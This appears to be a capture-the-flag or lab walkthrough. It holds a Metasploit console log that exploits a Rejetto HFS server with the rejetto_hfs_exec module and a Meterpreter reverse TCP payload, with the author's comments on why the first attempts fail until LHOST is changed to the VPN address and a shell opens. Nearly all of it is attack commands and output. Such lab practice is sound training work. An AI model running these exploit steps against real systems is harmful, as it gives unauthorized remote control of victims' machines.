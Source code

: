 
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.251.131  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
#as shown, I needed to set the rhost (target IP) and rport (target port) 
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.10.220.76
rhosts => 10.10.220.76
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8080
rport => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 192.168.251.131:4444
[*] Using URL: http://0.0.0.0:8080/zQpxmfykyhb
[*] Local IP: http://192.168.251.131:8080/zQpxmfykyhb
[*] Server started.
[*] Sending a malicious request to /
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\jaThkyedYIwI.vbs' on the target
[*] Exploit completed, but no session was created.

#next steps now would be to upload some file to the web server and execute it, before accessing the reverse shell in the meterpreter
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.220.76
RHOSTS => 10.10.220.76
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 192.168.251.131:4444
[*] Using URL: http://0.0.0.0:8080/qWaRJ1uQ1PW
[*] Local IP: http://192.168.251.131:8080/qWaRJ1uQ1PW
[*] Server started.
[*] Sending a malicious request to /
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\ONksOHpg.vbs' on the target
[*] Exploit completed, but no session was created.

#just doing these steps did not result in a meterpreter shell to be opened
#after trying some stuff I came to the realisation I had to change the LHOST to the IP address of the openvpn - 10.11.59.68
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.11.59.68:4444
[*] Using URL: http://0.0.0.0:8080/BOqk6kpmgyFdX4
[*] Local IP: http://192.168.251.131:8080/BOqk6kpmgyFdX4
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /BOqk6kpmgyFdX4
[*] Sending stage (175174 bytes) to 10.10.220.76
[!] Tried to delete %TEMP%\WGKGLJiqBv.vbs, unknown result
[*] Meterpreter session 1 opened (10.11.59.68:4444 -> 10.10.220.76:49286) at 2022-02-01 13:54:43 -0500
[*] Server stopped.
